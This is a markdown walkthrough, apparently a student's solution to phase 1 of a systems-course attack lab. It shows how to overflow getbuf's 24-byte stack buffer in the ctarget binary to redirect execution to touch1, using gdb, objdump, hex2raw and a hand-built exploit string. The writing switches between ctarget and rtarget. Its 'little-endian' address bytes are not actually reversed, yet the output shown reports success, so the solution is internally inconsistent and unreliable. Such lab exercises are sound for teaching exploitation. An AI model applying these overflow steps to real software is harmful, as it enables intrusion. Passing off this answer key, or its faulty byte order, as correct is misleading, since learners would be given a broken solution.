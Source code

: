 # Phase 1

Phase 1 is the easiest of the 5. What you are trying to do is overflow the stack with the exploit string and change the return address of getbuf function to the address of touch1 function. You are trying to call the function touch1.

run ctarget executable in gdb and set a breakpoint at getbuf

```b getbuf```

Then disasemble the getbuf function
```disas```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out.
```assembly
Dump of assembler code for function getbuf:
=> 0x0000000000401748 <+0>:	    sub    $0x18,%rsp
   0x000000000040174c <+4>:	    mov    %rsp,%rdi
   0x000000000040174f <+7>:	    callq  0x40198a <Gets>
   0x0000000000401754 <+12>:	    mov    $0x1,%eax
   0x0000000000401759 <+17>:	    add    $0x18,%rsp
   0x000000000040175d <+21>:	    retq   
End of assembler dump.
```

If you look at ```sub $0x18,%rsp```, you can see that 24 (0x18) bytes of buffer is allocated for getbuf.

Now you know the buffer size and you need to input 24 bytes of padding followed by the return address of the touch1 address.

To find the address the touch1, you need to get the dissasembled code for ctarget executable.

```objdump -d rtarget > rtarget_dump.s```

The above command will save the dissasembled code in file rtarget_dump.s open that file (I use vim) and find the touch1 function.

I found touch1 inside rtarget which looked like

```assembly
0000000000401919 <touch1>:
  401919:       48 83 ec 08             sub    $0x8,%rsp
  40191d:       c7 05 f5 3b 20 00 01    movl   $0x1,0x203bf5(%rip)        # 60551c <vlevel>
  401924:       00 00 00 
  401927:       bf ad 34 40 00          mov    $0x4034ad,%edi
  40192c:       e8 9f f3 ff ff          callq  400cd0 <puts@plt>
  401931:       bf 01 00 00 00          mov    $0x1,%edi
  401936:       e8 b7 05 00 00          callq  401ef2 <validate>
  40193b:       bf 00 00 00 00          mov    $0x0,%edi
  401940:       e8 0b f5 ff ff          callq  400e50 <exit@plt>
```
So it's address is at ```0x401919```

When you write the bytes, you need to consider the byte order. My system is a little-endian so the bytes go in reverse order.

Finally create a text file named phase1.txt which will look like below
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* the first 24 bytes are just padding */
40 19 19 00 00 00 00 00 /* address of touch1 */
```
Now you need to take this file and run it through the program hex2raw, which will generate raw exploit strings

```./hex2raw < phase1.txt > raw-phase1.txt```

Finally, you run the raw file

```./ctarget < raw-phase1.txt```

You will get something like below if your solution is right.
```ssh
Cookie: 0x3451d86d
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
